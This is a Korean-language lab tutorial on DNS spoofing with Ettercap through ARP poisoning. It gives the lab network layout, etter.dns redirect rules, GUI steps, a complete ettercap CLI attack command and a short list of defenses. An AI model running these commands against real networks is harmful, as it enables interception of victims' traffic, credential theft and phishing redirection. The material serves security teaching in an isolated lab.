

## 1. 개요

**Ettercap**은 MITM(Man-in-the-Middle) 공격 도구로, ARP Spoofing을 기반으로 다양한 네트워크 공격을 수행할 수 있습니다.

| 기능 | 설명 |
|------|------|
| **ARP Spoofing** | 대상의 ARP 캐시 조작 |
| **DNS Spoofing** | DNS 응답 조작 → 피싱 |
| **패킷 스니핑** | 평문 자격 증명 탈취 |
| **SSL Strip** | HTTPS → HTTP 다운그레이드 |

---

## 2. DNS Spoofing 공격 원리

ARP Spoofing으로 클라이언트와 DNS 서버 사이에서 MITM 위치를 확보한 후, DNS 응답을 조작합니다.



---

## 3. 사전 준비

### 환경 구성

| 역할 | IP | 설명 |
|------|-----|------|
| DNS 서버 | 10.0.0.11 | Rocky Linux (BIND) |
| 공격자 | 10.0.0.32 | Kali Linux |
| 피해자 | 10.0.0.101 | Windows 10 |

### DNS 서버 설정 (Rocky9-1)

```bash
dnf install -y bind bind-utils bind-libs

vi /etc/named.conf
# listen-on: any;
# allow-query: any;

vi /var/named/1
$TTL 1D
@   IN SOA  hamap.local. web. (
                0       ; serial
                1D      ; refresh
                1H      ; retry
                1W      ; expire
                3H )    ; minimum
    NS      ns1.hamap.local.
    A       10.0.0.31
www A       10.0.0.31
ns1 A       10.0.0.11

systemctl enable --now named
firewall-cmd --permanent --add-port=53/{tcp,udp}
firewall-cmd --reload
```

---

## 4. Ettercap 설정

### DNS Spoofing 룰 추가

```bash
vi /etc/ettercap/etter.dns

# 파일 끝에 추가
hamap.local     A   10.0.0.32
www.hamap.local A   10.0.0.32
*.hamap.local   A   10.0.0.32
```

### IPv6 비활성화 (안정성)

```bash
echo 0 > /proc/sys/net/ipv6/conf/eth0/use_tempaddr
```

---

## 5. 공격 수행

### GUI 실행

```bash
ettercap -G
```

### 공격 순서

1. **V** (Accept) - 네트워크 인터페이스 선택
2. **돋보기 아이콘** - Scan for hosts
3. **목록 아이콘** - Hosts list
4. 피해자 IP `10.0.0.101` → **Add to Target 1**
5. DNS 서버 IP `10.0.0.11` → **Add to Target 2**
6. **지구본 (MITM)** → ARP poisoning → OK
7. **...** (메뉴) → Plugins → Manage plugins
8. **dns_spoof** 더블클릭 (`*` 표시 = 활성화)

---

## 6. 공격 검증

### Windows 피해자

```cmd
ipconfig /flushdns
nslookup hamap.local
```

**결과**:
- 공격 전: `10.0.0.31` (정상)
- 공격 후: `10.0.0.32` (공격자 IP로 변조!)

브라우저에서 `hamap.local` 접속 시 공격자의 웹 서버로 연결됩니다.

---

## 7. 방어 방법

### 정적 ARP 매핑

```cmd
# Windows
arp -s 10.0.0.254 00-11-22-33-44-55
```

### 추가 방어책

| 방어 기법 | 설명 |
|----------|------|
| **DNSSEC** | DNS 응답에 전자서명 추가 |
| **Static ARP** | 주요 장비 ARP 캐시 고정 |
| **802.1X** | 포트 기반 네트워크 접근 제어 |
| **IDS/IPS** | ARP Spoofing 패턴 탐지 |
| **VPN** | 암호화된 터널로 MITM 무력화 |

---

## 8. CLI 모드

```bash
# 텍스트 모드 실행
ettercap -T -q -i eth0 -M arp:remote /10.0.0.101// /10.0.0.11// -P dns_spoof
```

| 옵션 | 설명 |
|------|------|
| `-T` | 텍스트 모드 |
| `-q` | 조용한 출력 |
| `-M arp:remote` | ARP Spoofing (원격) |
| `-P dns_spoof` | DNS Spoofing 플러그인 |

<hr class="short-rule">
